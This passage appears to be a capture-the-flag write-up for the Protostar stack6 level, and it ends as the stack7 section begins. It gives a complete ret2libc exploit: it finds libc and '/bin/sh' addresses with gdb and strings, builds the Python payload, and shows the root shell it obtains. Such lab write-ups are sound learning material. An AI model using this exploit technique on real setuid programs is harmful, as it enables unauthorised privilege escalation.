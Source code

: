 ``` shell
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

I use `gdb` to find the base address of **libc** in memory (0xb7e97000). Then, I use **strings** command to locate the offset of **"/bin/sh"** inside libc (0x11f3bf). 

``` shell
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

By adding these two values together, I compute the address of **"/bin/sh"**: 

$$
0xb7e97000 + 0x11f3bf = 0xb7fb63bf.
$$

Here is my script:

``` shell
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
system = struct.pack("I", 0xb7ecffb0)
fake_ret = "A" * 4
bin_sh = struct.pack("I", 0xb7fb63bf)

print padding + system + fake_ret + bin_sh
```

And we beat this level using `Ret2libc` ^^

``` shell
user@protostar:~$ (python script.py ; cat) | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP���RRRRSSSSTTTT���AAAA�c��
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

## Stack 7

Description:

>Stack6 introduces return to .text to gain code execution.<br><br>
>The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.<br><br>
>This level is at /opt/protostar/bin/stack7

Source code:
